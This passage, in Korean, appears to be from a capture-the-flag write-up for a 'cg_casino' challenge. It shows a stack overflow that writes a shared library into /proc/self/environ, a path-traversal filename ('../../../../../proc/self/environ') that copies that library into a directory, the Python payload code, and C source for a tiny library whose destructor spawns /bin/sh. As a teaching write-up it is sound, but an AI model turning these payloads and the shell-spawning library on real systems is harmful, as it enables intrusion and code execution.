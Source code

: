 실제로 stack의 끝에 있는 환경변수까지 값을 덮어보니 다음과 같이 `/proc/self/environ` 파일이 변경된 것을 확인할 수 있었다.
``` bash
cg_casino@3197b44a521a:~/voucher$ cat /proc/1241/environ
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
...
```
따라서 이런 식으로 stack의 값을 조작해서 `/proc/self/environ`에 파일의 형태로 남길 수 있다.

### Stack overflow & File copy
`/proc/self/environ`에 libc 데이터를 쓰고 그것을 `/home/cg_casino/voucher`로 가져오기 위한 조건은 총 3개이다.
- main의 new가 `/home/cg_casino/voucher`에 저장할 파일명일 것
- main의 old가 길이가 32이고 `/proc/self/environ` 파일을 가리킬 것
- stack 끝의 환경변수가 저장된 공간에 libc 데이터가 쓰여질 것

따라서 다음과 같이 payload를 구성했다.
``` python
    payload = b"mylib.so\x00"
    payload += b"\x00" * (env - buf - len(payload))
    payload += lib_data
    payload += b"\x00" * (3432 - (len(payload)))
    put_voucher(s, payload)

    merge_voucher(s, b"../../../../../proc/self/environ")
```
한편 이 과정에서 `read_401108()`를 이용해서 입력을 받기 때문에 libc에 `\x0a`가 있으면 데이터가 짤릴 위험이 있다.

실제로도 `\x0a`가 있어서 혹시나 하는 마음에 `\x0b`로 바꿔봤는데 다행히 libc가 잘 작동했다.
``` python
    with open("./mylib.so", "rb") as f:
        lib_data = f.read()
    lib_data = lib_data.replace(b"\x0a", b"\x0b")
```
따라서 위 payload를 추가해주어야 한다.

### Small libc
여기에서 문제가 하나 더 있는데 환경변수 영역도 한도가 있기 때문에 `merge voucher`로 가져올 수 있는 데이터 길이가 제한되어있다.
``` bash
root@3197b44a521a:/home/cg_casino/voucher# ls -al
total 16
drwxrwx-wx 1 root      root      4096 Aug  1 05:24 .
drwxr-xr-x 1 root      root      4096 Jul 31 08:08 ..
-rw------- 1 cg_casino cg_casino 3432 Aug  1 05:23 mylib.so
```
그래서 3432보다 작은 libc가 필요한데, 다음 소스코드를 `Ubunut 16.04`에서 컴파일해서 사이즈가 작은 libc를 만들 수 있었다.
``` c
// gcc -w -znorelro -s -fPIC -shared -nostdlib -o mylib.so mylib.c
__attribute__((destructor))
void on_unload() {
	system("/bin/sh");
}
```
`Ubuntu 22.04`에서는 같은 컴파일 옵션을 줘도 사이즈가 꽤 큰데, 컴파일러 버전에 따라서도 이렇게 차이가 심할 수 있다니 알아둬야겠다.
``` bash
➜  ls -al | grep mylib_from
-rwxr-xr-x 1 user user    2632 Aug  1 08:28 mylib_from1604.so
-rwxr-xr-x 1 user user   10160 Aug  1 14:40 mylib_from2204.so
```
